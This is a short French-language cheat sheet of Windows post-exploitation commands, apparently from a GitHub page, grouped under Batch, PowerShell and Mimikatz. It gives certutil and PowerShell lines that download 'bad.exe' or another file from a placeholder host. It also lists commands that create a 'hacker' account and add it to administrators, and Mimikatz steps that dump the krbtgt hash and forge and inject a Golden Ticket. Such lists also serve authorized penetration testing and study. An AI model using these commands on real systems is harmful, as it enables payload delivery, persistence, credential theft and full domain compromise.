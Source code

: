 <h2>Batch</h2>
<i>systeminfo</i> → Obtenir des renseignements sur le système</br>
<i>net users /domain [username]</i> → Obtenir des renseignements sur les utilisateurs</br>
<i>tasklist</i> → Lister les processus</br>
<i>netstat -ano</i> → Liste des connexions tcp</br>
<i>dir sysprep /s /b</i> → Trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
<i>wmic qfe list</i> → Lister les patch installés (KB)</br>
<i>certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe</i> → Wget en batch</br>
<i>certutil.exe -decode bad.txt bad.exe</i> → Base64 decode en cmd</br>
<i>net user Domain/hacker hackerhacker /add</i> → Ajoute un utilisateur</br>
<i>net localgroup administrators hacker /add</i> → Ajoute un utilisateur à un groupe</br>
<i>net use k: \\srv.remote.org\c$</i> → Connexion au disque distant c sur la partition k</br>
<i>wmic useraccount where name='user'</i> → Récupère des informations sur un utilisateur (SID)</br>

<h2>Powershell</h2>
<i>{(New-Object System.Net.WebClient).DownloadFile("http://site.com/file", "C:\\Users\Public\file")}</i> → Wget en powershell</br>
get-WmiObject -class Win32_Share

<h2>Mimikatz</h2>
privilege::debug</br>
lsadump::lsa /inject /name:krbtgt → Récupérer le NTLM hash de krbtgt</br>
kerberos::golden /user:[USER] /domain:[DOMAINE] /sid:[SID de USER] /krbtgt:[NTLM hash de krbtgt] /ticket:evil.tck /ptt → Créé et inject un golden ticket à la session</br>
